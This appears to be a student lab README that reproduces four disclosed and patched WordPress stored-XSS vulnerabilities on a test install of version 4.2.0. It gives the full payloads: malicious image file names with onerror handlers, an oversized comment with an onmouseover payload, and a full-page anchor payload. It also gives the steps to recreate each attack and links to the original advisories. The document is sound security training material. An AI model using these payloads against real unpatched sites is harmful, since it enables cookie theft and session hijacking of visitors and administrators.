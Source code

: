 # Project-WordPress-vs.-Kali
Hacking wordpress

# WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename

Summary: Used an XSS attack by renaming an image which includes <img src=a onerror=alert(document.cookie)> in its name. Upon viewing the image, onerror will trigger.

Vulnerability type: XSS
WordPress version tested in: 4.2.0
Fixed in version 4.2.1

GIF Walkthrough: https://imgur.com/a/3VgGqGIF Walkthrough: 

Steps to recreate: 
- Downloaded an image from online and renamed it: cengizhansahinsumofpwn<img src=a onerror=alert(document.cookie)>.jpg
- On WordPress, upload the newly named image and post it
- On Media tab, click on the image you just uploaded and click on "view attachment page"

Source: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html

# WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)

Summary: Implementing an XSS attack with a long text. The text will be truncated when inserted into database that will malformed HTML generated on the page which is an vulnerability for XSS attacks

Vulnerability type: XSS
WordPress version tested in: 4.2.0
Fixed in version 4.2.1

GIF Walkthrough: https://imgur.com/a/t0LrQ

Steps to recreate: 
- Type <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a> into the comment section on WordPress. The message needs to be at least 64 kb, so you will need to copy paste many 'A' until the message is large enough before submitting.

Source:https://klikki.fi/adv/wordpress2.html

# WordPress 3.3-4.7.4 - Large File Upload Error XSS

Summary: Implementing XSS attack by uploading a png filename called "Dinosaurs secret life<img src=x onerror=alert(1)>.png". The png is over 20 MB, which will be too large to be accepted. An error will appear when the png is being uploaded due to exceeding size limit, which will also trigger the onerror alert.

Vulnerability type: XSS
WordPress version tested in: 4.2.0
Fixed in version 4.2.15

GIF Walkthrough: https://imgur.com/a/ZmR35

Steps to recreate: 
- Find a large file over 20mb
- Rename the file to "Dinosaurs secret life<img src=x onerror=alert(1)>.png"
- Upload the file as a new media post to prompt the onerror alert

Source: https://hackerone.com/reports/203515

# WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

Summary: Implementing a onmouseover XSS attack by typing: "<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>" on the comment section of WordPress.

Vulnerability type: XSS
WordPress version tested in: 4.2.0
Fixed in version 4.2.4

GIF Walkthrough: https://imgur.com/a/cFywj

Steps to recreate: 
- Copy the text: <a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
- Paste the text on the comment section of WordPress.

Source: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html

